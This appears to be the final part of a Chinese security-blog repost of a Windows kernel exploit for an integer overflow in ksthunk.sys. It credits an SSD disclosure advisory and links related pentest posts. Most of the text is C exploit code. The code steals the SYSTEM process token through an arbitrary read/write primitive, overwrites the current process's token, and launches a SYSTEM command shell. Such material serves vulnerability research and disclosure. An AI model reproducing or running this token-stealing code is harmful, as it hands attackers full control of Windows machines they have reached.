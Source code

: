 ```

  // Start Traditional Exploit Technique
  DWORD64 SystemProcess = PsGetProcessFromPid(CurrentProcess, 4);
  DWORD64 SystemToken = readQWORD(SystemProcess + TOKENOFFSET);

  printf("[*] SystemProcess : %llx, SystemToken : %llx, CurrentProcess : %llx\n", SystemProcess, SystemToken, CurrentProcess);
  DWORD64 tokendata[2] = {
    0,
    SystemToken
  };

  // STEP3. Setup ARW 
  setuparw(overwrite_data_ptr, CurrentProcess + TOKENOFFSET - 8, tokendata);
  // Release the Area
  ReadDataEntry(holder, DummyBuffer, 0xff0);
  trigger(hDevice);

  DWORD dwread;
  ReadFile(pipes[overflowidx].r, DummyBuffer, 0x1, & dwread, NULL);

  // STEP4. Recover Data
  setuprecoverdata(overwrite_data_ptr, 0xfc0);
  trigger(hDevice);

  Sleep(200);
  system("cmd");
}
```  
  
  
原文地址:  
  
https://ssd-disclosure.com/ssd-advisory-ksthunk-sys-integer-overflow-pe/  
  
往期推荐  
  
  
  
[利用文件建立TCP连接隧道绕过防火墙](http://mp.weixin.qq.com/s?__biz=MzkxOTUyOTc0NQ==&mid=2247491318&idx=1&sn=748d214963f18eeddc99249e6ae38d2e&chksm=c1a1ee88f6d6679edf409782d386f1dbe5b45854ab71bf4eafcddc23713e92cb812c92e4a950&scene=21#wechat_redirect)  
  
  
[简化渗透测试整体流程的几个脚本](http://mp.weixin.qq.com/s?__biz=MzkxOTUyOTc0NQ==&mid=2247491064&idx=1&sn=eb4dec23b3898b98b65c93b06c829625&chksm=c1a1ed86f6d664906693de196c90c1f7ea0bfd74a40588bd93ca603bdf14f0a5e5e57cf675f3&scene=21#wechat_redirect)  
  
  
[黑客利用ARP协议进行侦查和攻击手法](http://mp.weixin.qq.com/s?__biz=MzkxOTUyOTc0NQ==&mid=2247490897&idx=1&sn=0985e7c4054cb0a20b64ea79ce4ecb64&chksm=c1a1ed2ff6d664392900ee0783b2bf47bc34949b83737ba994d66d3787e7e4764275f7288751&scene=21#wechat_redirect)  
  
  
[一款跨平台比VNC更丝滑的远程桌面管理工具](http://mp.weixin.qq.com/s?__biz=MzkxOTUyOTc0NQ==&mid=2247491004&idx=1&sn=9e1ea14e1c7180f226796841afac36f5&chksm=c1a1edc2f6d664d42e41d01de33ea5be7609d4c7030b2abba2f9968a9e406361dd7772f31003&scene=21#wechat_redirect)  
  